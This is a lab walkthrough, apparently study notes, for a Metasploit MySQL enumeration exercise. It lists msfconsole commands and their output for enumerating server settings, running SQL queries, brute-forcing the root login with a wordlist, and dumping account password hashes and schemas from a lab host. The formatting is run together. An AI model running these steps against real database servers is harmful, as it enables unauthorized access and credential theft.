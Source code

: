> 🔬 [Metasploit - MySQL Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=120)​

ip -br -c asetg RHOSTS 192.64.22.3setg RHOST 192.64.22.3workspace -a MYSQL\_ENUM

> **`auxiliary/admin/mysql/mysql_enum`**

search mysql\_enumuse auxiliary/admin/mysql/mysql\_enuminfoset USERNAME rootset PASSWORD twinklerun\[\*] 192.64.22.3:3306 - Running MySQL Enumerator...\[\*] 192.64.22.3:3306 - Enumerating Parameters\[\*] 192.64.22.3:3306 - MySQL Version: 5.5.61-0ubuntu0.14.04.1\[\*] 192.64.22.3:3306 - Compiled for the following OS: debian-linux-gnu\[\*] 192.64.22.3:3306 - Architecture: x86\_64\[\*] 192.64.22.3:3306 - Server Hostname: victim-1\[\*] 192.64.22.3:3306 - Data Directory: /var/lib/mysql/\[\*] 192.64.22.3:3306 - Logging of queries and logins: OFF\[\*] 192.64.22.3:3306 - Old Password Hashing Algorithm OFF\[\*] 192.64.22.3:3306 - Loading of local files: ON\[\*] 192.64.22.3:3306 - Deny logins with old Pre-4.1 Passwords: OFF\[\*] 192.64.22.3:3306 - Allow Use of symlinks for Database Files: YES\[\*] 192.64.22.3:3306 - Allow Table Merge:\[\*] 192.64.22.3:3306 - SSL Connection: DISABLED\[\*] 192.64.22.3:3306 - Enumerating Accounts:\[\*] 192.64.22.3:3306 - List of Accounts with Password Hashes:\[+] 192.64.22.3:3306 - User: root Host: localhost Password Hash: \*A0E23B565BACCE3E70D223915ABF2554B2540144\[+] 192.64.22.3:3306 - User: root Host: 891b50fafb0f Password Hash:\[+] 192.64.22.3:3306 - User: root Host: 127.0.0.1 Password Hash:\[+] 192.64.22.3:3306 - User: root Host: ::1 Password Hash:\[+] 192.64.22.3:3306 - User: debian-sys-maint Host: localhost Password Hash: \*F4E71A0BE028B3688230B992EEAC70BC598FA723\[+] 192.64.22.3:3306 - User: root Host: % Password Hash: \*A0E23B565BACCE3E70D223915ABF2554B2540144\[+] 192.64.22.3:3306 - User: filetest Host: % Password Hash: \*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B\[+] 192.64.22.3:3306 - User: ultra Host: localhost Password Hash: \*94BDCEBE19083CE2A1F959FD02F964C7AF4CFC29\[+] 192.64.22.3:3306 - User: guest Host: localhost Password Hash: \*17FD2DDCC01E0E66405FB1BA16F033188D18F646\[+] 192.64.22.3:3306 - User: gopher Host: localhost Password Hash: \*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0\[+] 192.64.22.3:3306 - User: backup Host: localhost Password Hash: \*E6DEAD2645D88071D28F004A209691AC60A72AC9\[+] 192.64.22.3:3306 - User: sysadmin Host: localhost Password Hash: \*78A1258090DAA81738418E11B73EB494596DFDD3\[\*] 192.64.22.3:3306 - The following users have GRANT Privilege:\[...]

> **`auxiliary/admin/mysql/mysql_sql`**

search mysql\_sqluse auxiliary/admin/mysql/mysql\_sqloptionsset USERNAME rootset PASSWORD twinklerun# set an SQL queryset SQL show databases;run\[\*] 192.64.22.3:3306 - Sending statement: 'select version()'...\[\*] 192.64.22.3:3306 - | 5.5.61-0ubuntu0.14.04.1 |​\[\*] 192.64.22.3:3306 - Sending statement: 'show databases;'...\[\*] 192.64.22.3:3306 - | information\_schema |\[\*] 192.64.22.3:3306 - | mysql |\[\*] 192.64.22.3:3306 - | performance\_schema |\[\*] 192.64.22.3:3306 - | upload |\[\*] 192.64.22.3:3306 - | vendors |\[\*] 192.64.22.3:3306 - | videos |\[\*] 192.64.22.3:3306 - | warehouse |

> **`auxiliary/scanner/mysql/mysql_file_enum`**

> **`auxiliary/scanner/mysql/mysql_hashdump`**

> **`auxiliary/scanner/mysql/mysql_login`**

search mysql\_loginuse auxiliary/scanner/mysql/mysql\_loginoptionsset USERNAME rootset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txtset VERBOSE falseset STOP\_ON\_SUCCESS falserun\[+] 192.64.22.3:3306 - 192.64.22.3:3306 - Success: 'root:twinkle'

> **`auxiliary/scanner/mysql/mysql_schemadump`**

search mysql\_schemadumpuse auxiliary/scanner/mysql/mysql\_schemadumpoptionsset USERNAME rootset PASSWORD twinklerun\[+] 192.64.22.3:3306 - Schema stored in:/root/.msf4/loot/20230413112948\_MYSQL\_ENUM\_192.64.22.3\_mysql\_schema\_807923.txt\[+] 192.64.22.3:3306 - MySQL Server SchemaHost: 192.64.22.3Port: 3306====================---- DBName: uploadTables: \[]- DBName: vendorsTables: \[]- DBName: videosTables: \[]- DBName: warehouseTables: \[]
